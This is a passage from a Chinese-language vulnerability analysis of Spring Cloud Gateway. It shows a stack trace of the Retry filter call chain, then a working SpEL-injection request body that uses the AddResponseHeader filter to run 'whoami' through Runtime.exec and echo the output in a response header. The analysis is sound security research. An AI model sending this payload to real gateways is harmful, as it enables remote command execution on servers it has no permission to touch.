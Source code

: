 ```txt
subscribe:4400, Mono (reactor.core.publisher)
subscribeWith:4515, Mono (reactor.core.publisher)
subscribe:4371, Mono (reactor.core.publisher)
subscribe:4307, Mono (reactor.core.publisher)
subscribe:4279, Mono (reactor.core.publisher)
onApplicationEvent:81, CachingRouteLocator (org.springframework.cloud.gateway.route)
onApplicationEvent:40, CachingRouteLocator (org.springframework.cloud.gateway.route)
doInvokeListener:176, SimpleApplicationEventMulticaster (org.springframework.context.event)
invokeListener:169, SimpleApplicationEventMulticaster (org.springframework.context.event)
multicastEvent:143, SimpleApplicationEventMulticaster (org.springframework.context.event)
publishEvent:421, AbstractApplicationContext (org.springframework.context.support)
publishEvent:378, AbstractApplicationContext (org.springframework.context.support)
refresh:96, AbstractGatewayControllerEndpoint (org.springframework.cloud.gateway.actuate)

```
至此 Retry 走马观花的分析完成。

## 2.5 其他的调用链分析
Retry 属于 不可回显的RCE调用链，如果想要回显，可以使用AddResponseHeader，相关的调用如下:
AddRequestParameter
[ModifyRequestBodyGatewayFilterFactory@7e3d7dd configClass = ModifyRequestBodyGatewayFilterFactory.Config]
因为在org.springframework.cloud.gateway.filter.factory.rewrite.ModifyRequestBodyGatewayFilterFactory#apply 时候会向返回消息中出入运行的数据信息
![image.png](http://moonsec.top/articlepic/0c3c577b6584611c1d48ff5986dbc4e4.png)
对应的请求信息如下：
```txt
{
    "id": "test1",
    "filters": [
        {
            "name": "AddResponseHeader",
            "args": {
                "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}",
                "name": "cmd123"
            }
        }
    ],
    "uri": "http://aaa.com",
    "order": 0
}
```
响应信息如下：
![image.png](http://moonsec.top/articlepic/cc5378dfc3ffde35d4394e6e9eb7d35b.png)

# 后续接下篇
由于服务器的压力不行，后续的分析接下篇






# 参考
1、https://moonsec.top/articles/64
2、https://nosec.org/home/detail/5008.html
3、https://paper.seebug.org/1878/